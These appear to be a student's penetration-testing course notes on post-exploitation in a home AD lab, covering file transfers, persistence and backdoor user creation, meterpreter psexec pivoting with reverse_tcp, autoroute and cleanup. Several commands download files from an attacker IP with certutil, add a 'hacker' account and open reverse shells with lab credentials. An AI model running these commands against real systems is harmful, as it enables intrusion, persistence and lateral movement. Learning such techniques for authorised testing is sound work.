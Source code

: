 # File Trnsfers Review
- certutil - `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`
- HTTP - `python -m simplehttpserver 80`
- browser - `navigate directly to file`
- FTP - `python -m pyftpdlib 21 (attacker machine) , ftp 10.10.10.10`
- linux - `wget`

# Maintaining Access
- persistent scripts
	- run persistence -h
	- exploit/windows/local/persistence
	- exploit/windows/local/registry_persistence
- scheduled tasks
	- run scheduleme
	- run schtaskabuse
- add a user (this is heath recommendation, the above are metasploit - can be dangerous, mainly used in redteaming not pentesting)
	- net user hacker password123 /add (loud, but suitable for pentesting)

# Pivoting
Simple example using meterpreter psexec on AD lab machines
can also use a tool called proxychains
```bash
#in msfconsole
use exploit/windows/smb/psxec
options #to check parameters
set rhosts 192.168.57.141 #frank castle machine
set smbdomain marvel.local
set smbpass Password1
set smbuser fcastle

#choose payload
set payload windows/x64/meterpreter/reverse_tcp
set lhost eth0
options #check

set target 2
run #execute >> if STATED VIRUS make sure it's turned off
```
- post exploitation
	- once in, things to run:
		- `route print` - check routing
		- `IP` - confirm NICs
		- `arp - a` - what else is it talking to 
			- how can we also talk to these? we need to pivot
- can `^c` to terminate channel 1
- in meterpreter
```bash
run autoroute 10.10.10.0/24 #from IP we exploited, make a route from that to this network

run autoroute -p
background #background session 1
#can use portscan to verify if pivoted to network
search portscan
use 5 #tcpscan
options #set parameters
set rhosts 10.10.10.129
set ports 445 #set based on enum info
run
```

# Cleanup
Pentest perspective
- ❗️ make the system/network as it was when you entered it
	- remove executables, scripts, and added files
	- remove malware, rootkits, and added user accounts
	- set settings back to original configurations
